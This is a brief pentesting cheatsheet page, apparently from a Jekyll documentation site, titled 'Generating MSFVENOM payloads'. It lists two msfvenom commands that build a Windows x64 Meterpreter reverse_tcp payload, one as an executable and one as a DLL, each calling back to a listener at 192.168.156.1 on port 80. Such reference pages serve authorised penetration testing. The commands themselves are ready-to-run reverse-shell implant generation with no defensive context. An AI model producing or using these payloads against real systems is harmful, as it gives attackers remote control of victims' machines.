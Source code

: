```yaml
---
layout: default
title: Generating MSFVENOM payloads
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
nav_order: 2
has_children: true
---
```


# {{ page.title }}

Generating payload with msfvenom either a dll or an executable file:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```












